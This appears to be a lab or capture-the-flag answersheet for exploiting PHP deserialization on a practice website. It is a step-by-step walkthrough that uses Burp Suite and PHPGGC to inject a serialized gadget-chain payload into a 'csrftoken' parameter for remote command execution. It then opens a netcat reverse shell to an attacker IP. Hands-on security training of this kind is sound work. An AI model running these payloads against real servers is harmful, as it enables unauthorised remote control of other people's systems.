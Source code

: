 # PHP Deserialization Answersheet

**Step 1:** Navigate to "PHP Website:16664" link
<kbd> <img src="1.png" /> </kbd>
<br /> <br />


**Step 2:** Provide the necessary information and click on "submit" button.
<kbd> <img src="2.png" /> </kbd>
<br /> <br />


**Step 3:** Capture the request in BurpSuite proxy and Observe the "csrftoken" parameter contains the Base64 data.
<kbd> <img src="3.png" /> </kbd>
<br /> <br />


**Step 4:** While decoding the value with Base64, we are able to identify the serealized data.
<kbd> <img src="4.png" /> </kbd>
<br /> <br />


**Step 5:** Send request captured in **Step 3** to the Burp Repeater 
<kbd> <img src="5.png" /> </kbd>
<br /> <br />


**Step 6:** Download the PHPGGC utility from the following location to generate the serealized payload using the following command and capture the payload
PHPGGC Location: https://github.com/ambionics/phpggc
```
./phpggc -b slim/rce1 system id
```
<kbd> <img src="6.png" /> </kbd>
<br /> <br />


**Step 7:** Replace the payload generated in **Step 6** in parameter "csrftoken" in request captured in **Step 5** and send request and observe the serve respond with the output of command "id".
<kbd> <img src="7.png" /> </kbd>
<br /> <br />


**Step 8:** Start the listener using the following command
```
nc -nlvp 6666
```
<kbd> <img src="8.png" /> </kbd>
<br /> <br />


**Step 9:** Capture the system IP Address and used that to generate the payload of reverse shell using the following command and capture the payload
```
./phpggc -b slim/rce1 "nc 192.168.29.88 6666 -e /bin/sh"
```
<kbd> <img src="9.png" /> </kbd>
<br /> <br />


**Step 10:** Repalce the payload catured in **Step 9** in "csrftoken" paramter in **Step 5** and click on "send" button.
<kbd> <img src="10.png" /> </kbd>
<br /> <br />

**Step 10:** We received the connection on reverse shell and use the whoami, uname -e command to extract the server information.
<kbd> <img src="11.png" /> </kbd>
<br /> <br />
